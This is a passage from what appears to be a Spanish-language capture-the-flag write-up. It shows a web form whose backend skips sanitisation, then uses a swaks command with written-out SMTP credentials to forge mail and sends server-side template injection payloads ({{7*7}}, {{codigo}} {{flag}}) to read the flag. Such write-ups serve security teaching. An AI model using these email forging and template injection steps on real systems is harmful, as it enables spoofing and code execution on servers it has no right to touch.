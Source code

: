La respuesta entonces es sí, podemos enviar correos forjados!!

## -...- 2.2 ¿Ocurrirá otro proceso de sanitización? -...-

Recordemos cuáles son los carácteres eliminados por el formulario:

{% asciiart %}
@app.route("/", methods=["POST"])
@rate_limiter.limit("10/minute")
def handle_form():
    ...
    if all([name, email, message]):
        for c in "%{}()+":
            name = name.replace(c, "*")
            message = message.replace(c, "*")
    ...
{% endasciiart %}

En **/backend/process_email.py** nunca se sanitiza el contenido, porque se asume que ya viene limpio del frontend. Podemos validar esto enviando un correo con carácteres prohibidos.

{% asciiart %}
    $ swaks --to "solicitud@dominioreal.xyz" \
            --from "webform@dominioreal.xyz" \
            --server dominioreal.xyz:25 \
            --auth-user postfixsender \
            --auth-pass FCHBg3jrkT6BohKmCtuhLkV9lqqndeNtp \
            --body '{"template":"%{}()+","email":"neo@sigint.in"}'
{% endasciiart %}

![05](/assets/images/2023-8dot8-05.png){:style="display:block; margin-left:auto; margin-right:auto"}

Fantástico, efectivamente no ocurre otro proceso de sanitización.

## -...- 2.3 ¿Podré enviar una plantilla maliciosa explotando un SSTI? -...-

Si bien hay mil y un formas de validar esto, partamos enviando a ya saben quién:

{% asciiart %}
{% raw %}{"template":"{{7*7}}","email":"neo@sigint.in"}{% endraw %}
{% endasciiart %}

![06](/assets/images/2023-8dot8-06.png){:style="display:block; margin-left:auto; margin-right:auto"}

Ahora es cosa de recordar las variables que se inyectan en el namespace del template: codigo y flag. Veamos ambas:

{% asciiart %}
{% raw %}{"template":"{{codigo}} {{flag}}","email":"neo@sigint.in"}{% endraw %}
{% endasciiart %}

![07](/assets/images/2023-8dot8-07.png){:style="display:block; margin-left:auto; margin-right:auto"}

Y tenemos la flag :)
**flag{4ut3nt1c4c1on_SMTP?}**
